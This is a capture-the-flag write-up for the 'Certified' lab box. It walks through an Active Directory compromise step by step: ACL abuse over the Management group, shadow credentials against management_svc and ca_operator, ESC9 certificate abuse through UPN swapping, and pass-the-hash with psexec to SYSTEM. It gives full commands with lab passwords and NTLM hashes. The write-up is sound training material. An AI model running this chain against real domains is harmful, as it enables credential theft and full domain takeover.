









---
### Overview

This medium-difficulty box focused on exploiting weaknesses in misconfigured Active Directory Certificate Services (AD CS), combined with access control list (ACL) abuse to progress through the attack path.

## 1. Reconnaissance

###  UDP Port Scan

Nmap UDP scan against the target:

```bash
sudo nmap -sU --top-ports 100 -sV -T3 -Pn -n 10.129.231.186
```



Identified open UDP ports:

```text
53/dns
88/kerberos
123/ntp
```

---

###  TCP Port Scan

Full TCP scan with default scripts and version detection:

```bash
sudo nmap -sV -sC -p- -T4 -Pn 10.129.231.186
```


Identified open TCP ports:

```text
53   : dns
88   : kerberos
135  : msrpc
139  : netbios
389  : ldap
445  : smb
5985 : winrm
```

---

###  Domain Identification

The Fully Qualified Domain Name (FQDN) was identified as:

```text
certified.htb
```

The domain was added to the local `/etc/hosts` file.


---

### SMB Enumeration

####   Share Enumeration

Using valid credentials for `judith.mader`, SMB shares were enumerated:

```bash
nxc smb 10.129.231.186 -u judith.mader -p 'judith09' --shares
```

The following shares were readable:

- NETLOGON
    
- SYSVOL
    
- IPC$
    



---

####  User Enumeration

Enumerating domain users over SMB:

```bash
nxc smb 10.129.231.186 -u judith.mader -p 'judith09' --users
```


Discovered domain users:

```text
management_svc
ca_operator
alexander.huges
harry.wilson
gregory.cameron
judith.mader
```

---

### BloodHound Enumeration

#### Time Synchronization

To avoid Kerberos-related issues, the local system time was synchronized with the domain controller:

```bash
sudo ntpdate -u certified.htb
```

---

####  Privilege Analysis

BloodHound revealed the following privileges for `judith.mader`:

- Member of the **Certificate Service DCOM Access** group
    



- Has **WriteOwner** rights over the **Management** group
    



---

####  Certificate Enumeration (Judith)

Certificates were enumerated for `judith.mader` to identify potential AD CS misconfigurations:

```bash
certipy find -u 'judith.mader' -p 'judith09' -dc-ip 10.129.231.186 -target certified.htb -enabled -vulnerable -stdout
```


---

## 4. Exploitation

### Taking Ownership of the Management Group

Since `judith.mader` has **WriteOwner** over the **Management** group, ownership was changed:

```bash
impacket-owneredit -action write -new-owner 'judith.mader' -target 'management' certified.htb/judith.mader:'judith09'
```


---

#### Granting GenericAll Permissions

After gaining ownership, **GenericAll** permissions were granted to `judith.mader` on the **Management** group:

```bash
bloodyAD --host 10.129.231.186 -d certified.htb -u judith.mader -p 'judith09' add genericAll 'Management' 'judith.mader'
```


---

####  Adding User to the Management Group

With sufficient permissions, `judith.mader` was added to the **Management** group:

```bash
bloodyAD --host 10.129.231.186 -d certified.htb -u 'judith.mader' -p 'judith09' add groupMember Management 'judith.mader'
```



---

####  Lateral Control Discovery

BloodHound was revisited, revealing that the **Management** group has **GenericWrite** over the user `management_svc`:


---

####  Kerberoasting Attempt

An attempt was made to Kerberoast `management_svc` using `targetedKerberoast.py`:

```bash
python3 targetedKerberoast.py -v -d 'certified.htb' -u 'judith.mader' -p 'judith09'
```


The extracted hash could not be cracked using Hashcat.

---

####  Shadow Credentials Attack

Instead, a **Shadow Credentials** attack was performed using Certipy:

```bash
certipy shadow auto -username judith.mader@certified.htb -password 'judith09' -account 'management_svc' -dc-ip 10.129.231.186
```

This yielded the NTLM hash for `management_svc`.


---

####  Credential Validation

The obtained hash was validated over SMB:

```bash
nxc smb 10.129.231.186 -u 'management_svc' -H a091c1832bcdd4677c28b5a6a1295584
```


---

#### WinRM Access

Successful WinRM authentication was confirmed:

```bash
nxc winrm 10.129.231.186 -u 'management_svc' -H a091c1832bcdd4677c28b5a6a1295584
```



---

####  Certificate Enumeration (management_svc)

Certificate vulnerabilities were checked for `management_svc`:

```bash
certipy find -u 'management_svc' -hashes :a091c1832bcdd4677c28b5a6a1295584 -dc-ip 10.129.231.186 -target certified.htb -enabled -vulnerable -stdout
```


---

####  Interactive Shell

An interactive shell was obtained:

```bash
evil-winrm -i 10.129.231.186 -u 'management_svc' -H a091c1832bcdd4677c28b5a6a1295584
```

  


---

## 5. Privilege Escalation

### BloodHound Analysis

BloodHound revealed that `management_svc` has **GenericAll** over the **ca_operator** account:



---

#### Password Reset (ca_operator)

Using BloodyAD, the password for `ca_operator` was changed:

```bash
bloodyAD --host 10.129.231.186 -d certified.htb -u management_svc -p :a091c1832bcdd4677c28b5a6a1295584 set password 'ca_operator' 'Password123!'
```


---

#### Certificate Enumeration (ca_operator)

Certificate enumeration revealed that `ca_operator` is vulnerable to **ESC9**:

```bash
certipy find -u 'ca_operator' -p 'Password123!' -dc-ip 10.129.231.186 -target certified.htb -enabled -vulnerable -stdout
```


---

#### Shadow Credentials (ca_operator)

The NTLM hash for `ca_operator` was obtained:

```bash
certipy shadow auto -u management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -account ca_operator
```


---

#### UPN Manipulation

The UPN for `ca_operator` was temporarily changed to `administrator`:

```bash
certipy account update -u management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator
```

---

#### Administrator Certificate Request

An administrator certificate was requested:

```bash
certipy req -u ca_operator@certified.htb -hashes :2b576acbe6bcfda7294d6bd18041b8fe -ca certified-DC01-CA -template CertifiedAuthentication -target 10.129.231.186
```


---

#### UPN Restoration

The UPN was reverted back to its original value:

```bash
certipy account update -u management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator
```

---

#### Administrator NTLM Hash Extraction

Using the obtained certificate, the NTLM hash for the Administrator account was retrieved:

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.231.186 -domain certified.htb
```



---

#### Domain Administrator Access

A SYSTEM shell was obtained using PsExec:

```bash
impacket-psexec administrator@certified.htb -hashes aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```



---

## 6. Proof of Compromise

Root flag successfully obtained:


